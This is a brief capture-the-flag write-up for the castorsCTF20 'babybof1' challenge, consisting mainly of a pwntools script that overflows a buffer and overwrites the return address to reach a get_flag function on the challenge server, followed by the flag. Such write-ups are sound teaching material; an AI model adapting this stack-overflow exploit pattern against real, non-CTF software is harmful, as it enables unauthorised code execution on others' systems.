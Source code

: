 ```yaml
---
type: "post"
title: "castorsCTF20 - babybof1"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "pwn", "castorsCTF20"]
---
```


<!--more-->
With `radare2` we can see there is a `get_flag` function so let's ROP it!

```python
from pwn import *

flag_addr = 0x004006e7

p = remote("chals20.cybercastors.com", 14425)
p.recvuntil("Babybof")

padding = "A" * cyclic_find(b"qaacraac")
print(padding + p64(flag_addr))
p.sendline(padding + p64(flag_addr))
p.interactive()
```

**Flag:** `castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}`




